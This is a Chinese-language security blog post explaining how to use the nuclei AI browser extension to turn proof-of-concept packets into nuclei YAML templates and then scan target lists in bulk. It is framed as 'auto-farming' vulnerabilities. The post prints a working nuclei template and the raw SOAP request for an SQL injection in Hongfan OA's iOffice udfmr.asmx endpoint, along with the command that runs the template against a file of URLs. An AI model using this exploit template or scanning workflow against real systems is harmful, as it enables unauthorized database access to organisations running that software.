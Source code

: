 #  nuclei+ai 解放双手，自动刷洞，同时poc共享！！   
 朱厌安全   2024-09-22 18:24  
  
# 背景  
> 之前在github上看到了nuclei新推出的一个浏览器插件，nuclei ai可以利用浏览器浏览器和ai直接对poc数据包生成合适的yaml文件，在星球内进行代shua poc的时候发现很多师傅不会写yaml，故写这篇文章，希望可以利用这个浏览器插件方便大家~~  
  
  
# 2. 项目地址  
> **项目地址：https://github.com/projectdiscovery/nuclei-ai-extension**  
  
**官方地址：https://cloud.projectdiscovery.io/template**  
  
  
  
# 3. 自动生成yaml+浏览器快捷检验  
> **在网上寻找相关的poc，并使用nuclei ai进行poc生成，同时再自己进行一些修改，即可**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US07CT5O0Vbh8IvJRqHXvSmaM8mib4ADaMgb3sUqkibJwYtojOJibia1N0HbQ/640?wx_fmt=png&from=appmsg "")  
> **最后得到的poc**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0CFW2FYBzfCrdp9xFaEbbqBL1sjeEt2K9Dy4ClVZaFt1XKUUiatOV6eg/640?wx_fmt=png&from=appmsg "null")  
```
id: hongfansql

info:
  name: 红帆oa Sql注入
  author: fkalis
  severity: high
  reference: https://blog.csdn.net/qq_41904294/article/details/132365842

http:
  - method: POST
    path:
      - "{{BaseURL}}/iOffice/prg/set/wss/udfmr.asmx"

    headers:
      Content-Type: text/xml; charset=utf-8
      SOAPAction: "http://tempuri.org/ioffice/udfmr/GetEmpSearch"

    body: |      <?xml version="1.0" encoding="utf-8"?>      <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">        <soap:Body>          <GetEmpSearch xmlns="http://tempuri.org/ioffice/udfmr">            <condition>1=user_name()</condition>          </GetEmpSearch>        </soap:Body>      </soap:Envelope>    matchers:
      # Add your desired matcher(s) here, for example:
      - type: word
        words:
          - "SqlException"
        part: body
      - type: status
        status:
          - 500
```  
> **tips：在运行poc的时候可能会遇到报错，可以使用-validate 对报错进行查看**  
  
  
**有错误：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0Kiacyjceib1ZhUh73yBO5uVjdK7Xy8LBDaVwicDQRV4224vorgntfvveQ/640?wx_fmt=png&from=appmsg "")  
  
**修改后：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0m82woRibty5exXoP4xlxJpv34YqxR70vKSB8uRsBQS2ILURLRj3KJiaw/640?wx_fmt=png&from=appmsg "")  
# 运行poc查看效果  
> **nuclei -t "hongfan Sql注入.yaml" -l url.txt -v**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0BGKiaWibKNd6S35MWN4kF1Q0ibY001zGx7b6ohVXhdHGFz3S2HE2uS8xQ/640?wx_fmt=png&from=appmsg "")  
# 漏洞复现检验  
```
POST /iOffice/prg/set/wss/udfmr.asmx HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/ioffice/udfmr/GetEmpSearch"
 
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetEmpSearch xmlns="http://tempuri.org/ioffice/udfmr">
      <condition>1=user_name()</condition>
    </GetEmpSearch>
  </soap:Body>
</soap:Envelope>
```  
  
http://xxx.xxx.xxxx:9980/ioffice/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0t2zdEiaDlrAbnYbUnp8VrY5xn2ljYFZO9YbZPwYqo51Yr1UXXOC8qwQ/640?wx_fmt=png&from=appmsg "")  
  
执行poc：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0byficaxWfndAGfVNfkL9GJUoVScQciafTr5iaqnfrtNJuDWMQkneAfW3Q/640?wx_fmt=png&from=appmsg "")  
# 使用浏览器进行快捷漏洞检验  
> **打开poc列表**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0qFjtF7EPdQyE72vgIfHDFbX7A0bIJUgWPuKcY7HxPTGD09QxmCUDXg/640?wx_fmt=png&from=appmsg "")  
> **选中刚刚的写好的poc，或者网上的poc**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0N6KVicJ7UiaJeVOROwIpibqyy77NZeDgccp2pA88HXd8HrBdbq6hTgEkA/640?wx_fmt=png&from=appmsg "")  
> **将目标站点放在target中，并点击scan**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0TaKOicPUdUCfGh1e6ClYbWg7pbSOJy8x8P8h6ygI4n2JaiaZib7jCqzsQ/640?wx_fmt=png&from=appmsg "")  
> **可以看见攻击的请求和响应判断攻击是否成功**  
  
  
请求包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0NEwzia55BUPYfkibhjZBRBlpQ1iatxOTxkhQPPZicxD9RrPAPypwHHZ2YA/640?wx_fmt=png&from=appmsg "")  
  
响应包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US047icgevqag2Abm40oy1q0NRic4KmR1J7qtHOCpPwrJ0FZwd0nPFDwWLQ/640?wx_fmt=png&from=appmsg "")  
  
# 3. nuclei ai poc分享  
  
**支持对自己编写的poc进行连接分享**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0NluqzxZk2MCdUHXM4rqQD3rlxy2TCVbZBOtFhibFQw4WurPk2KicwfxA/640?wx_fmt=png&from=appmsg "")  
  
**访问分享的连接即可获取到poc**  
> https://cloud.projectdiscovery.io/xxx.xxx  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0HoPqCldsicaotiarZlibDMjqMib511HFg0fYRPlicywwg5l0WBLDl2IjJnQ/640?wx_fmt=png&from=appmsg "")  
  
**当然也可以关闭对poc的分享**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicf0Mc8VFib4pOOMjfKs52US0kRSmic3nVwS3NZGVW3PCgpJvvd2v7ZaF4aK9fnolicnfem6EW73BahRA/640?wx_fmt=png&from=appmsg "")  
  
  
